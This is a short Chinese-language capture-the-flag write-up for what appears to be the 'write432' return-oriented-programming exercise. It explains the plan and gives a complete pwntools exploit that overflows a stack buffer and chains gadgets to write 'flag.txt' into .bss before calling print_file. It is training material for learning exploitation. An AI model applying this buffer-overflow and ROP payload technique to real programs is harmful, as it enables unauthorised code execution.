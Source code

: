 # write432

> 我们需要执行print_file("flag.txt")，32位要用栈传递参数。

1. 把bss的首地址传给%edi，把'flag'传给%ebp，然后把%ebp（'flag'）传递给%edi所指向的地址，即bss的首地址。

2. 同理，把bss+4的地址传给%edi，把'.txt'传给%ebp，然后把%ebp（.txt）传递给%edi所指向的地址，即bss+4。

3. 同理，把bss+8的地址传给%edi，把'\0'传给%ebp，然后把%ebp（\0）传递给%edi所指向的地址，即bss+8。

4. 最后，调用print_file()，参数地址设置在bss段首地址。

Exp:
```python
import pwn
  
pwn.context(arch='i386', os='linux', log_level='debug')

p = pwn.process('./write432')
e = pwn.ELF('./write432')
libwrite432 = pwn.ELF('./libwrite432.so')

print_file_plt = pwn.p32(e.plt['print_file'])
bss_addr = e.bss()                          # bss段的首地址
pop_edi_ebp_addr = pwn.p32(0x080485aa)        # pop edi ; pop ebp ; ret
mov_ebp__edi__addr = pwn.p32(0x08048543)      # mov %ebp (%edi) ; ret 

'''
for k, v in e.sym.items():
    print(k, hex(v))
'''

# pwn.gdb.attach(p)

payload = b'A' * 0x28 + b'B' * 4 + pop_edi_ebp_addr + pwn.p32(bss_addr) + b'flag' + mov_ebp__edi__addr  
#                                           #  pop bss_addr to edi  | pop 'flag' to ebp  | mov 'flag' to (%edi) -> bss_addr
payload += pop_edi_ebp_addr + pwn.p32(bss_addr + 4) + b'.txt' + mov_ebp__edi__addr
#                           #  pop bss+4 to edi  | pop '.txt' to ebp  | mov '.txt' to (%edi) -> bss+4
payload += pop_edi_ebp_addr + pwn.p32(bss_addr + 8) + pwn.p32(0) + mov_ebp__edi__addr
#                           #  pop bss+8 to edi  | pop '\0' to ebp  | mov '\0' to (%edi) -> bss+8
payload += print_file_plt + b'RRRR' + pwn.p32(bss_addr)                                                 
#                                #  bss_addr = 'flag.txt\0'
p.sendlineafter(b'> ', payload)
p.recv()
```